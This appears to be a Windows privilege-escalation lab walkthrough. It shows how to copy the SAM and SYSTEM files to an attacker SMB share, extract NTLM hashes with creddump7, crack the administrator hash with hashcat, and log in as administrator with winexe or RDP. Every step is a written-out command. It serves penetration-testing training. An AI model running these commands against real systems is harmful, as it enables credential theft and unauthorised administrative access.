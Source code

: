 # 🐾 Task 11: SAM and SYSTEM Files - Extracting Password Hashes
---

## 📜 Task Description
In this task, we will extract password hashes from the SAM and SYSTEM files. These files are commonly used for storing passwords in Windows. On the target machine, these files are stored in the `C:\Windows\Repair\` directory in an unprotected form. We will transfer these files to Kali and use the creddump7 utility to extract password hashes. Then, using hashcat, we will attempt to crack the administrator password hash.

---

## 🔍 Step 1: Copy SAM and SYSTEM Files to Kali
First, copy the SAM and SYSTEM files from the target machine to your Kali machine. Execute the following commands:  
`copy C:\Windows\Repair\SAM \\lhost\kali\`  
`copy C:\Windows\Repair\SYSTEM \\lhost\kali\`

### 📋 Expected Output
- Ensure that the files are successfully copied to your Kali machine.

---

## 🔑 Step 2: Clone the creddump7 Repository and Install Dependencies
Next, clone the creddump7 repository and install the necessary dependencies. Execute the following commands on Kali:  
`git clone https://github.com/Tib3rius/creddump7`  
`pip3 install pycrypto`

### 📋 Expected Output
- Ensure that the repository is successfully cloned and dependencies are installed.

---

## 📝 Step 3: Extract Password Hashes from SAM and SYSTEM Files
Now, use the creddump7 utility to extract password hashes from the SYSTEM and SAM files. Execute the following command:  
`python3 creddump7/pwdump.py SYSTEM SAM`

### 📋 Expected Output
- Ensure that password hashes are successfully extracted from the SAM and SYSTEM files.  
![image](https://github.com/user-attachments/assets/569ce36a-7b7b-4e1d-a78c-09d781a7122b)

---

## 🎯 Step 4: Crack the Administrator Password Hash with hashcat
Now, use hashcat to crack the administrator's password hash. Execute the following command (make sure to replace `<hash>` with the administrator password hash):  
`hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`

### 📋 Expected Output
- Ensure that hashcat successfully cracks the administrator password hash.  
![image](https://github.com/user-attachments/assets/06e9f9a4-8197-47a1-b5cc-4a2c0915d1bb)

---

## 📝 Step 5: Login Using the Cracked Password
Now that we have the cracked password, use it to log in to the system with administrator privileges. You can use either winexe or RDP:  
- For winexe: `winexe -U 'admin%<password>' //rhost cmd.exe`  
- For RDP: use the cracked password to log in via RDP.

### 📋 Expected Output
- Ensure that you are able to log in to the system with administrator privileges using the cracked password.

---

## 🎉 Congratulations!
You have successfully extracted password hashes from the SAM and SYSTEM files, cracked them, and used them to log in to the system with administrator privileges! 🎊

---

## 📌 Notes
- If you encounter issues with an older version of creddump7, always update the repository from GitHub.
- Use this knowledge responsibly and only within authorized penetration testing engagements.
